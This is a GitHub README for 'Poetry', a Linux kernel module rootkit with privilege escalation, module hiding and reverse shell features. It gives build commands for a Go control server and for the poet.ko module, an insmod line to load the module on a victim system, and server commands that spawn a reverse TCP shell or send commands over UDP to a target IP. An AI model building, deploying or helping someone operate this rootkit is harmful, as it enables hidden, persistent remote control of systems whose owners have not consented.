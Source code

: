 ![nil is goated](https://img.shields.io/badge/nil-goated-green)
# Poetry
This is a Linux kernel module rootkit made for >=5.13. It features privilege escalation, module hiding, and reverse shell capabilities. 

## Server Setup
### Building
#### If not on Linux:
Docker must be installed in order to compile the server binary. 
```sh
cd srv/
make # compile the go binary
ls out/ # compiled binary will be in the out/ directory
```
#### If on Linux:
You can utilize the method above if you have Docker installed, or you can use the method below if you have Golang installed. 
```sh
cd srv/

# compile the server binary
go build
```

The compiled binary will be called: `poetry`

### Running
Copy the compiled binary to the host system. Run the following commands to interact with the target:
```sh
export IFACE=<ethernet_interface> # set interface env var
sudo -E ./poetry -t <target_ip> -s # -s attempts to spawn a reverse tcp shell
sudo -E ./poetry -t <target_ip> -c "<command>" # -c sends a single command through udp. no output
```

## Kernel Module
### Tested On:
- 5.4.0
- 5.13.0
### Building
```sh
# install needed packages
apt update
apt install build-essential \
            checkinstall \
            linux-headers-$(uname -r) \
            -y 

cd lkm/

# comment out the printk debug statements
sed -i 's/debug=1/debug=0/g' poet.c 

# compile the kernel module with the corresponding headers
make 
```
The compiled LKM will be: `poet.ko`
### Installing
```sh
# install the kernel module on the system
sudo insmod poet.ko 
```

## References
TODO add refs